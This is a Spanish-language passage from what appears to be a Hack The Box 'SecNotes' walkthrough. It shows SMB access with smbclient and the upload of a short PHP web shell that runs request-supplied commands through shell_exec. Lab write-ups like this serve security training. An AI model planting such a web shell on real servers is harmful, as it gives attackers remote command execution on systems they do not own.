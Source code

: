 A partir de este punto empezaremos a trabajar con `smbclient`, ya que nos resultará mucho más cómoda su interfaz de línea de comandos (CLI).

```
smbclient //10.10.10.97/new-site -U 'tyler'
```

Para saber de que se trata el contenido dentro del recurso `new-site` podemos descargarlo en nuestra máquina con el comando `get`, aunque podemos también intuirlo en base al nombre de los archivos, `IIS`.

```
get iisstart.htm
get iisstart.png
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/30.png)

Rápidamente nos daremos cuenta que estamos frente al contenido de la segunda página web, alojada en el puerto `8808`; por lo que, dada nuestra capacidad de escritura sobre el recurso, deberíamos de poder subir contenido que se vea reflejado en el servidor web.

Empecemos por subir algo simple como una `web shell`.

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

```
put cmd.php
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/31.png)
